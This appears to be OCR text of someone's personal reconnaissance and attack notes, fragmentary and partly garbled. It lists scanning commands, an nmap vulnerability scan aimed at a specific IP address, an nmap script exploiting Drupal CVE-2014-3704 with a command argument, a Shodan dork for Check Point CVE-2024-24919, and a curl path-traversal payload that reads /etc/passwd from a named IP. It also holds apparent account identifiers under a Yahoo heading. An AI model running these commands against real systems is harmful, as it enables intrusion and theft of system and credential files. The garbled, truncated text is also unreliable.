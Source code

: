 -sc -title -t 50 -ports 8080,443,80,8888,5000,5555,51,53,57431,21,8443,8008,5543,5521,55571,21441,2222,5555,10000,4567,9100,1337,60001

amass  enum -passive -norecursive -noalts -df 

## 301

- 01159844762A

### yahoo~Account

- amzonuser

- 011598447622111

## 404

## 403

## Port Scan
- -t cves/ -t vulnerabilities -severity critical,high
- -- sudo nmap -sC -sV -sS --script vuln -O -A  -p- --open --min-rate=1000  104.207.254.25
- nmap --script http-vuln-cve2014-3704 --script-args http-vuln-cve2014-3704.cmd="uname -a

## Domain-Error-Json

## Links-Find

## Curl

- curl -H "Accept: application/json" -H "Authorization: Bearer "

### robots.txt

## Shodan-Search-Cves 

- Dork: "Server: Check Point SVN" "X-UA-Compatible: IE=EmulateIE7" --> Check point: CVE-2024-24919

curl --path-as-is -i -s -k -X $'POST'\ -H $'Host: 52.63.143.168' -H $'Content-Length: 39' -H $'Connection: Keep-alive'\ --data-binary $'aCSHELL/../../../../../../../etc/passwd'\ $''

## Cmd Filter Urls In Img

## Login Info

## Credentils  
  